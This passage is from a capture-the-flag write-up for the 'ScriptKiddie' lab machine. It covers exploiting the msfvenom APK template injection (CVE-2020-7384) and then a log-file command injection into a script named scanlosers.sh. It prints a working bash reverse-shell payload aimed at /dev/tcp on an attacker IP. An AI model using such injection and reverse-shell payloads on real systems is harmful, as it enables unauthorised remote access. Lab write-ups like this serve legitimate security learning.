 
The web application hosted a number of "Hacking Tools". The Nmap and Payloads fields didn't seem to be vulnerable, however when inserting a quotation mark into the sploits field, I received the following message:

```text
stop hacking me - well hack you back
```

I attempted to do a few different escapes, but nothing seemed to stick so I decided to go back and focus my efforts on the other tools. Having a look at the Payloads section, which takes in a msfvenom template file, I came across the following exploit: <https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/>. Searching a bit more for CVE-2020-7384, I came across the following Github PoC: <https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md> which I modified to generate a malicious apk file. The payload field itself was modified to generate a simple netcat reverse shell which was directed to my local machine.

Since it was an apk file that was generated, I navigated back to the web application's payloads option, selected the Operating System as Android and set the lhost to `127.0.0.1`. I then clicked the `generate` button and managed to receive a connection back:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/ScriptKiddie/img2.png"  style="width: 80%" />
</p>

## Lateral Movement using Kid
Success! With access to the host, I started off by performing some basic enumeration:

<details></details>

From there, I browsed through the host and saw that a `.msf4` directory existed. Additionally, I saw that there were 2 home directories, namely: `kid` and `pwn`. The `pwn` 
directory contained a script file named `scanlosers.sh`, the contents of the file are shown below:

<details></details>

The file called a "hackers" log file which was owned by my `kid` user. The script file seemed to simply take the contents of the file and run an nmap scan. However, it didn't perform any sanitisation checks. Since the "hackers" file was owned by my user, I decided to modify the file to include a reverse shell:

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/9001 0>&1' #" >> hackers
```

The exploit required 2 whitespaces before the exploit code since the script ran `cut` on a whitespace and selected the third field to inject into the nmap command. Once the file was modified, I stared a netcat listener and waited for a connection back to my machine:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/ScriptKiddie/img3.png"  style="width: 80%" />
</p>
